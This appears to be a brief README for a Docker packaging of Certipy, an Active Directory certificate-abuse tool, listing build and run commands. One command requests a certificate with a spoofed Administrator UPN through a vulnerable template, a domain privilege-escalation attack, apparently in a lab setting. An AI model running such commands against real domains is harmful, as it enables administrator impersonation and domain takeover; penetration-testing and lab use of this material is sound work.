﻿# Docker Version of Certipy

Runs with Python 3.12

## Build

```bash
sudo docker build -t certipy:latest .
```

## Run

```bash
sudo docker run -it -v $(pwd):/tmp certipy:latest certipy find -u 'user' -p 'password' -dc-ip 10.10.208.229
```

## Pass Hostname to Container

```bash
sudo docker run -it -v $(pwd):/tmp --add-host=DC:10.10.90.78 certipy:latest certipy req -u 'user@domain.loc' -p "Password" -dc-ip 10.10.90.78 -target 'DC' -ca 'domain-DC-CA' -template 'RetroClients' -upn 'Administrator@domain.loc' -key-size 4096
```

## Use LDAPS and LDAP Channel Binding

```bash
sudo docker run -it -v $(pwd):/tmp certipy:latest certipy find -u 'user' -p 'password' -scheme ldaps -ldap-channel-binding
```
